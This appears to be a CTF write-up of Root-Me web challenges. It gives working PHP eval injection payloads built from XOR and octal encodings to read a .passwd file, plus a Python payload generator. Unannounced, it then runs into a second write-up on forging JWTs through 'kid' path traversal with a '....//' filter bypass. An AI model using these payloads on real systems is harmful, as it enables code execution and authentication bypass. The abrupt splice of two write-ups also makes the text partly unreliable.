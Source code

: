 
# PHP - Eval  ( Non-alphanumeric PHP code )

Challenge category : WEB-SERVER \
Difficulty : MEDIUM \
Links :  https://www.root-me.org/en/Challenges/Web-Server/PHP-Eval / https://www.root-me.org/en/Challenges/Web-Server/PHP-Eval

For this challenge there are 2 solutions , but in this writeup I will show only the first one 

Let's analyze the challenge  : 
```
Statement
Find a vulnerability in this service and exploit it.

Note : the flag is in .passwd file.
```
Source code : 
```php
<html>
<head>
</head>
<body>
 
<h4> PHP Calc </h4>
 
<form action='index.php' method='post'>
    <input type='text' id='input' name='input' />
    <input type='submit' />
<?php
 
if (isset($_POST['input'])) {
    if(!preg_match('/[a-zA-Z`]/', $_POST['input'])){
        print '<fieldset><legend>Result</legend>';
        eval('print '.$_POST['input'].";");
        print '</fieldset>';
    }
    else
        echo "<p>Dangerous code detected</p>";
}
?>
</form>
</body>
</html>

```
As the index says it should be a PHP calculator , but it uses the eval() function to do "calculations" and this makes it vulnerable to code injection 
![](./images/1.png)
![](./images/2.png)

We can enter numbers or special characters but not letters because the input is filtered by the preg_match() function : 
```php
 if(!preg_match('/[a-zA-Z`]/', $_POST['input']))
```

There are 2 ways to bypass this filter ( as mentioned above) , in this case we will have the eval() function perform XOR operations on special characters 
```
RAW   |  BINARY
/     =  00101111
            ⊕
_     =  01011111  

p     =  01110000

In PHP  XOR=^ so ('/' ^ '_')= 'p'

Example: 
p = ('/'^'_')
a = ('!'^'@')
s = ('('^'[')
s = ('('^'[')
w = ('('^'_')
d = ('$'^'@')

passwd   =  ('/'^'_').('!'^'@').('('^'[').('('^'[').('('^'_').('$'^'@')
```
Let's try entering the string above into the input field
![](./images/3.png)

It returned `passwd` 

Now let's try reading the contents of the `.passwd` file (which contains the flag as mentioned in the challege description) \
To do this we need to convert the `file_get_contents('.passwd')` function to XOR operations , I wrote a python script (don't mind the not-so-clean code ) : 

```python
import re
charset = ['!','$','%','&','/','(',')','=','{','[',']','}',',',';','.',':','-','_','+','*','~','#','\'','@','<','>','|','?','^',' ']

plain_text="file_get_contents('.passwd')"
pt_dict=[*plain_text]
payload=f""
fnd=0
for letter in pt_dict:
    fnd=0
    if not re.match('[a-zA-Z]',letter):
        if letter == '\'' : 
            letter='\\\''
        if letter == '"' : 
            letter = '\\"'
        payload+=f"'{letter}'."
        continue
    for char1 in charset :
        if fnd:
            fnd=1
            break
        for char2 in charset:
            if ord(char1)^ord(char2)==ord(letter):
                #print (f"{letter} : ('{char1}'^'{char2}'). \n ")
                payload+=f"('{char1}'^'{char2}')."
                fnd=1
                break
        
print (payload)
```
The script output will be : `('&'^'@').(')'^'@').(','^'@').('%'^'@').'_'.('['^'<').('%'^'@').('/'^'[').'_'.('='^'^').('/'^'@').('.'^'@').('/'^'[').('%'^'@').('.'^'@').('/'^'[').('('^'[').'('.'\''.'.'.('/'^'_').('!'^'@').('('^'[').('('^'[').('('^'_').('$'^'@').'\''.')'` \
Let's try entering the string above into the input field
![](./images/4.png)

As we can see the function is not executed but is printed , so let's try another way of executing a function : `(function)(arg)` so `(file_get_contents)(.passwd)`
```
(('&'^'@').(')'^'@').(','^'@').('%'^'@').'_'.('['^'<').('%'^'@').('/'^'[').'_'.('='^'^').('/'^'@').('.'^'@').('/'^'[').('%'^'@').('.'^'@').('/'^'[').('('^'['))('.'.('/'^'_').('!'^'@').('('^'[').('('^'[').('('^'_').('$'^'@'))
```

![](./images/5.png)
Great ! it works. ✅


\ 
\
\
The other method is similar but uses octal encoding of characters, it is easier but I like more difficult methods 😜


```
 "\146\151\154\145\137\147\145\164\137\143\157\156\164\145\156\164\163"("\56\160\141\163\163\167\144")
 ```






\
\
\
\
\
\
\

```
Cookie: session=eyJhbGciOiJIUzI1NiIsImtpZCI6ImI5MDFiYjI0LTcwMGItNGNjNi1hNzFhLWNiMjA3YWI2MTMxMyIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiZ3Vlc3QiLCJpYXQiOjE2OTM3MjY5MTV9.GMHoWnEW4uwXc7bF7LwjsULTvbPG16CTm_KyjCp-Jfw
```
The server responds with a json 
```
{"Unauthorized":"You are not admin !"}
```
We try to decode the token from base64 (using https://jwt.io/#debugger-io):
![](/images/4.png)

The first attempt made was to try to crack the token signing key with HashCat or John , but unfortunately I did not get any results, so let's take a closer look at the decoded token and notice a parameter in the header : 
```
"kid": "b901bb24-700b-4cc6-a71a-cb207ab61313"
```

Kid stands for Key ID ( https://www.rfc-editor.org/rfc/rfc7515#section-4.1.4 ) \
```
4.1.4.  "kid" (Key ID) Header Parameter

   The "kid" (key ID) Header Parameter is a hint indicating which key
   was used to secure the JWS.  This parameter allows originators to
   explicitly signal a change of key to recipients.  The structure of
   the "kid" value is unspecified.  Its value MUST be a case-sensitive
   string.  Use of this Header Parameter is OPTIONAL.

   When used with a JWK, the "kid" value is used to match a JWK "kid"
   parameter value.
```
Let us try playing with the KID parameter and create a token by entering `test` in the KID parameter and `secret` for the token signature key
![](/images/5.png)

We send the request with the token modified with Burp's Repeater
![](/images/6.png)

and we notice that the KID is not stored in a database but retrieves a file in the path `keys/[KID_FILENAME]`,so test if the file containing the signature key is readable by going to  http://challenge01.root-me.org:59081/keys/b901bb24-700b-4cc6-a71a-cb207ab61313 but we get 404 response 

At this point we know that the signature key is read from a file so let's try entering the path to a file we know : 
![](/images/2.png)

for example `static/challs/htmllecture.html`
![](/images/7.png)

let's try entering the file path with a Path Traversal `../static/challs/htmllecture.html` and as the signature key the contents of `htmllecture.html` so : `FLAG: ROUTEMI{c_le_premier_chall}`
![](/images/8.png)
![](/images/9.png)

There is a filter that removes `../` so we try to bypass it using `....//`
![](/images/10.png)
![](/images/11.png)

Great the game is done !!!








